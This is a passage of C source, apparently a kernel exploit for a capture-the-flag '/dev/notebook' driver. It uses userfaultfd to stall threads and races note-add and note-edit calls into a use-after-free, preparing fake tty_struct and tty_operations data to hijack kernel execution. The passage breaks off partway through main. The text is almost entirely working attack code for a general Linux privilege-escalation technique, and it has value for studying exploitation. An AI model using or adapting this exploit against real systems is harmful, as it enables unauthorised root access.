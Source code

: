 ```c

ssize_t noteRead(int idx, void *buf)
{
    return read(note_fd, buf, idx);
}

ssize_t noteWrite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

void* fixSizeByAdd(void *args)
{
    sem_wait(&evil_add_sem);
    noteAdd(0, 0x60, uffd_buf);
}

void* constructUAF(void * args)
{
    sem_wait(&evil_edit_sem);
    noteEdit(0, 0, uffd_buf);
}

int main(int argc, char **argv, char **envp)
{
    struct KernelNotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infastructure */
    saveStatus();
    bindCore(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        errExit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, 
                            MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    registerUserFaultFdForThreadStucking(&uffd_monitor_thread, uffd_buf,0x1000);

    /* get a tty-size object */
    puts("[*] allocating tty_struct-size object...");

    noteAdd(0, 0x10, "arttnba3rat3bant");
    noteEdit(0, TTY_STRUCT_SIZE, temp_page);

    /**
     * construct UAF by userfaultfd.
     * Note that we need to sleep(1) there to wait for the kfree() to be done,
     * so that the UAF object can be regetted later.
    */
```